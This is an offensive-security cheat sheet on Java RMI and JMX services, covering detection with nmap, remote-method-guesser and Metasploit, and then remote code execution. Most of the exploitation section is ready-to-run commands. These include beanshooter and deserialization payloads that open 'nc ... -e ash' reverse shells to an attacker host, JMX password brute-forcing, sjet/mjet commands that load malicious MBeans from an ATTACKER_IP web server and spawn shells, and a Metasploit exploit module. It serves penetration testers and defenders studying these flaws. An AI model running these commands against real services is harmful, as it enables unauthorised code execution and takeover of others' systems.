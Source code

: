 # Java RMI

> Java RMI (Remote Method Invocation) is a Java API that allows an object running in one JVM (Java Virtual Machine) to invoke methods on an object running in another JVM, even if they're on different physical machines. RMI provides a mechanism for Java-based distributed computing.

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Exploitation](#exploitation)
  * [RCE using beanshooter](#rce-using-beanshooter)
  * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
  * [RCE using Metasploit](#rce-using-metasploit)
* [References](#references)

## Tools

- [siberas/sjet](https://github.com/siberas/sjet)
- [mogwailabs/mjet](https://github.com/mogwailabs/mjet)
- [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
- [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX enumeration and attacking tool.

## Detection

* Using [nmap](https://nmap.org/):
  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   VULNERABLE:
  |   RMI registry default configuration remote code execution vulnerability
  |     State: VULNERABLE
  |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* Using [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
  [+] 	[6234 / 6234] [#############################] 100%
  [+] Portscan finished.

  $ rmg enum 172.17.0.2 9010
  [+] RMI registry bound names:
  [+]
  [+] 	- plain-server2
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+] 	- legacy-service
  [+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+] 	- plain-server
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* Using Metasploit
  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## Exploitation

If a Java Remote Method Invocation (RMI) service is poorly configured, it becomes vulnerable to various Remote Code Execution (RCE) methods. One method involves hosting an MLet file and directing the JMX service to load MBeans from a distant server, achievable using tools like mjet or sjet. The remote-method-guesser tool is newer and combines RMI service enumeration with an overview of recognized attack strategies.


### RCE using beanshooter

* List available attributes: `beanshooter info 172.17.0.2 9010`
* Display value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* Set the value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* Bruteforce a password protected JMX service: `beanshooter brute 172.17.0.2 1090`
* List registered MBeans: `beanshooter list 172.17.0.2 9010`
* Deploy an MBean: `beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* Enumerate JMX endpoint: `beanshooter enum 172.17.0.2 1090`
* Invoke method on a JMX endpoint: `beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* Invoke arbitrary public and static Java methods: 
  ```ps1
  beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
  beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
  ```
* Standard MBean execution: `beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* Deserialization attacks on a JMX endpoint: `beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`


### RCE using sjet or mjet

#### Requirements

- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean `javax.management.loading.MLet` on the target server, using JMX
* Invoking the `getMBeansFromURL` method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [siberas/sjet](https://github.com/siberas/sjet) or [mogwailabs/mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH, 28 April 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security, 26 March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel, 15 August 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
